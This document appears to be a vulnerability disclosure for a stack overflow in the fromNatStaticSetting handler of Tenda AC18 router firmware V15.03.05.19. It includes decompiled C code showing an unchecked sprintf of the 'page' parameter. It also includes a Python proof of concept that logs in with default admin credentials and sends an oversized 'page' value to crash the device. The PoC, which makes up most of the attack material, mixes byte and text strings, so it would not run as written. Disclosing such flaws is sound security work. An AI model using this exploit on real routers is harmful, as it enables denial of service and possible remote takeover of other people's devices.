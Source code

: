 ## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)

### * Vulnerability Detail

In function fromNatStaticSetting, the content obtained by the program from the parameter "page" is passed to local_1c, 
and then the local_1c is directly copied into the acStack288 stack through the sprintf function. 
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void fromNatStaticSetting(undefined4 param_1)

{
  int iVar1;
  char acStack288 [256];
  undefined4 local_20;
  undefined4 local_1c;
  char *local_18;
  undefined4 local_14;
  
  local_14 = FUN_0002ba8c(param_1,"entrys",&DAT_000e5718);
  local_18 = (char *)FUN_0002ba8c(param_1,"op",&DAT_000e5720);
  FUN_0004eaf0("adv.snat",local_14,0x7e);
  local_1c = FUN_0002ba8c(param_1,"page",&DAT_000e5738);
  sprintf(acStack288,"nat_static.asp?page=%s",local_1c);  //here is overflow
  iVar1 = strncmp(local_18,"add",3);
  if ((iVar1 != 0) && (iVar1 = strncmp(local_18,"edit",4), iVar1 != 0)) {
    local_20 = FUN_0002ba8c(param_1,"isoncheck",&DAT_000e576c);
    SetValue("adv.snat.en",local_20);
  }
  iVar1 = CommitCfm();
  if (iVar1 != 0) {
    PostMsgToNetctrl(0x22);
  }
  FUN_0002be4c(param_1,acStack288);
  return;
}
```

### * POC
```python
import requests


cmd  = b'entrys=' + b'A' * 100 + '&op='
cmd += b'A'* 0x100 + '&page=' + 'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/NatStaticSetting/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
